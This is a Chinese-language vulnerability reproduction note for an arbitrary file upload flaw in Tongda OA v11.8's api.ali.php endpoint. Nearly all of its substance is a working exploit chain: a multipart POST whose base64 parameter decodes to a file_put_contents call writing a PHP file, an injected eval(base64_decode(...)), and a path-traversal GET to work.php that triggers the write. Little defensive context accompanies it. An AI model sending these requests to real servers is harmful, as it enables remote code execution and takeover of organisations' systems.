 # 通达OA v11.8 api.ali.php 任意文件上传漏洞

## 漏洞描述

通达OA v11.8 api.ali.php 存在任意文件上传漏洞，攻击者通过漏可以上传恶意文件控制服务器

## 漏洞影响

<a-checkbox checked>通达OA v11.8</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628303888717-4ffc91a6-e87e-4e00-8bd5-b2218bb0772a.png)

像 api.ali.php 发送请求包

```python
POST /mobile/api/api.ali.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream

{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==","dataAnalysis":"{\"a\":\"錦',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\"}"}
--502f67681799b07e4de6b503655f5cae--
```

<a-checkbox checked>参数a base解码</a-checkbox></br>

<a-checkbox checked>ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==file_put_contents('../../fb6790f4.php','<?php phpinfo();?>');</a-checkbox></br>

![img](../../../.vuepress/public/img/1630513004438-e5a73ef6-8d65-40a1-9a3c-3be30cd7d164.png)

再发送GET请求写入文件

```python
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

![img](../../../.vuepress/public/img/1630513044174-8139c404-4f11-404e-be04-42d86b407bdd.png)

其中请求中对 2109 为 年月,路径为 **/fb6790f4.php,**

![img](../../../.vuepress/public/img/1630513283771-36cc86c7-a150-4834-be64-243b20938165.png)